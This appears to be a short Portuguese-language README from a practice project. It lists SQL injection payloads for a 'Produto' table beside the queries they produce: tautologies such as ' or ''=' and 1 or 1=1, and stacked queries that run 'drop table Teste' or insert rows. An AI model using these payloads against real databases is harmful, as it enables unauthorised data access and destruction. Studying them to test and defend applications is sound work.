 # TesteUm

- ' or ''='
- SELECT \* FROM Produto where descricao = '' or ''=''

- ' drop table Teste--
- SELECT \* FROM Produto where descricao = '' drop table Teste--'

- ' Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())--
- SELECT \* FROM Produto where descricao = '' Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())--'

# TesteDois

- 1;drop table Teste--
- 1;drop table Teste
- SELECT \* FROM Produto where id = 1;drop table Teste

- 1 or 1=1
- SELECT \* FROM Produto where id = 1 or 1=1

- 1; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())--
- 1; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())
- SELECT \* FROM Produto where id = 1; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())

# TesteTres

- 1'; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate()) --

- '; Insert into Teste (Descricao, DataCadastro)

# TesteQuatro

- '; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())--
- SELECT \* FROM Produto where Descricao like '%'; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())--%'"
